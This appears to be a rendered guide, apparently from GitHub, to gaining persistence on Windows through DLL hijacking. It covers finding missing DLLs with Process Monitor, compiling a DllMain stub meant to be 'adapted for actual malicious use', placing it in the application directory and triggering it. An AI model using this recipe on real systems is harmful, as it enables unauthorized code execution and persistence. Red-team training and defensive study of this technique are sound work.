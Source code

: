 ### **ESTABLISHING PERSISTENCE USING DLL HIJACKING**

DLL Hijacking takes advantage of the way Windows applications search for and load Dynamic Link Libraries (DLLs). Here is a detailed explanation of the commands and technical aspects of setting up a DLL Hijacking scenario:

### **STEP 1: IDENTIFYING VULNERABLE APPLICATIONS AND DLLS**

1.  Download and run Process Monitor.
2.  Set up a filter to observe the DLL loading behavior of the target application.
3.  Look for entries that indicate a DLL being searched for but not found, or loaded from a non-specific path.  
    `Filter -> Category -> Path -> contains -> .dll`

### **STEP 2: CREATING THE MALICIOUS DLL**

4.  Write C++ code that performs the desired malicious action when the DLL is loaded. Here’s an example that shows a basic message box when loaded (to be adapted for actual malicious use):
    
    ```c++
    #include <Windows.h>
    
    BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
      switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
          MessageBox(NULL, "DLL has been injected!", "DLL Hijacking", MB_OK);
          break;
      }
      return TRUE;
    } 
    ```
    
5.  Use a command line compiler like MinGW or Visual Studio `cl` command to compile the DLL.  
    `cl /LD MaliciousDll.cpp /Fe:MaliciousDll.dll`
    

### **STEP 3: PLACING THE MALICIOUS DLL**

6.  Depending on the DLL search order and your access rights, place the DLL in a directory that will be searched before the legitimate DLL’s usual directory.
7.  Common locations to test include the application’s directory or directories listed in the system `PATH`.  
    `copy MaliciousDll.dll C:\Path\To\Target\Application\`

### **STEP 4: TRIGGERING THE EXPLOIT**

8.  Simply starting the application normally should trigger the loading of your malicious DLL, if placed correctly.  
    `start "" "C:\Path\To\Target\Application\Application.exe"`

### **STEP 5: MONITORING AND CLEANUP**

9.  Reopen Process Monitor and check for the loading event of your `MaliciousDll.dll`.
10. Ensure that your message box or other indicators of execution appear as expected.
11. Remove the malicious DLL from the directory to prevent further execution and to clean up the environment.  
    `del C:\Path\To\Target\Application\MaliciousDll.dll`